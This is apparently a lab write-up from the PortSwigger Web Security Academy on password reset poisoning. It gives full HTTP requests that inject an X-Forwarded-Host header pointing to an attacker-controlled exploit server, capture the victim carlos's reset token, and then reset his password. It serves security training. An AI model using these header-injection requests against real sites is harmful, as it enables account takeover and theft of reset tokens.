







# Password reset poisoning via middleware

## Lab Description :


## Overview :
Password Reset Poisoning - Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

How this attack works ?

The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use evil-user.net.

The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:

https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j
If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.

The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account.

#### References :

 . https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html

 . https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning

## Solution :
The lab is a blog website,



Clicking on My Account takes us to this login page,



When we click on forgot password, browser sends a POST request to /forgot-password along with username=wiener parameter.
```html
POST /forgot-password HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```
After forwarding the above request, we can see the reset password link has been sent to wiener's email.



When we click the link, enter our new password , a GET request is sent to /forgot-password along with a token like this



```html
POST /forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA&new-password-1=newpass&new-password-2=newpass
```
And thus we've finally changed the password of wiener using the password reset link.

Perform password reset poisoning on carlos -
We modify the POST Request sent to /forget-password by adding an additional header ``X-Forwarded-Host=<our-server.net>`` & change username=carlos
```html
POST /forgot-password HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
X-Forwarded-Host: exploit-0aac005904405eb2810b1f5001860011.exploit-server.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos
```
Since it is given in the lab description that user carlos will carelessly click on any links in emails that he receives. It means he will click the link to access the forgot password page.

As guessed, we can see in the access log of our exploit server, the user carlos had indeed clicked the link & we've got a GET request to /forgot-password page which contains carlos's token - ``Nfrrsdma8tQoaei2fh79q5H90VMtE4gX``.



Now modify the POST request to /forgot-password which had the token of user wiener, change the token value to Nfrrsdma8tQoaei2fh79q5H90VMtE4gX (carlos's token) in both url and in body of ther request.
```html
POST /forgot-password?temp-forgot-password-token=Nfrrsdma8tQoaei2fh79q5H90VMtE4gX HTTP/2
Host: 0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Cookie: session=anHQWEif1S7SLaCMKg0aHmQua1UmqfuG
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net
Referer: https://0a2a008c04ea5e04811420c2002d00da.web-security-academy.net/forgot-password?temp-forgot-password-token=olTcYZZvrY685nbSMG6vkdvD5n21IreA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=Nfrrsdma8tQoaei2fh79q5H90VMtE4gX&new-password-1=newpass&new-password-2=newpass
```
Our guess is that probably the password of carlos is now reset to newpass since we got the token value & replaced it with carlos's token.

Lets verify it by logging in.



#### Visit The Next Page For The Next Level :)
